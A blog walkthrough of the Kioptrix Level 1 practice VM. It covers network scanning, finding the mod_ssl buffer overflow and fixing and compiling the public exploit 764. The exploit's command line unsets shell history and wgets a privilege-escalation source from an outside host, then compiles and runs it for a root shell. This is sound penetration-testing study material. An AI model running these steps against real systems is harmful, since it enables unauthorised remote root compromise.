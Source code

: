 ```yaml
---
layout: post
title: Vulnerable VMs - Kioptrix Pt. 1
published: true
---
```


The Kioptrix series of vulnerable VMs closely resemble the material presented in the PWK course, and the OCSP exam. Kioptrix Level 1 starts out relatively easy, so let’s get started:

Once we have the VM loaded in bridged adapter mode (directly connected to physical network), let’s quickly scan our subnet for the machine:

```bash
nmap -sS -T5 192.168.1.0/24
```
 

Our output shows that our target is at `192.168.1.104`. Let’s perform a direct scan that fingerprints open ports/services:

```bash
nmap -sV -sT -A -T4 -sC 192.168.1.104
```
 

Which tells us that an Apache web server is running on the target:

```
443/tcp  open  ssl/https  Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2017-01-28T00:10:51+00:00; -37d09h58m43s from scanner time.
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
...snip..
```

Notably, this server is running a very outdated version of Apache and OpenSSL. We think the version of OpenSSL has a working exploit, however, let’s confirm our suspicion with a quick `nikto` scan:

```bash
nikto -h 192.168.1.104:80
```
 

Which returns an interesting line:
```
+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
```


`nikto` confirms our suspicion that `mod_ssl` has an RCE vulnerability in versions 2.8.7 and lower. Let’s find the exploit:

```bash
searchsploit mod_ssl 2.8.7
```
 

`searchsploit` is telling us that the exploit is at `/usr/share/exploitdb/platforms/unix/remote/21671.c`. However, this version was a bit outdated, so I downloaded my exploit straight from exploit-db:

```bash
wget https://www.exploit-db.com/download/764
```
 

Now, we have to make a few changes to the source code since this exploit is a bit outdated. First, there is a hard-coded line to `wget` some resources from packetstormsecurity, however, their download domain has changed since then. Find the following line:

```c
#define COMMAND2 "unset HISTFILE; cd /tmp; wget http://packetstormsecurity.nl/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
```


and replace it with:

```c
#define COMMAND2 "unset HISTFILE; cd /tmp; wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
```
 

Now we need to import the RC4/MD5 OpenSSL libraries for compatibility with this legacy SSL version. Add the following include statements:

```c
#include openssl/rc4.h
```
```c
#include openssl/md5.h
```
 

And compile the exploit per the instructions in the code comments:

```bash
gcc -o pwn 764.c -lcrypto
```
 

Run the exploit with the following arguments (Note, the 0x6b argument specifies the version of apache/server platform, detailed in exploit help):

```bash
./pwn 0x6b 192.168.1.104
```
 

And you get a root shell! Easy peasy.
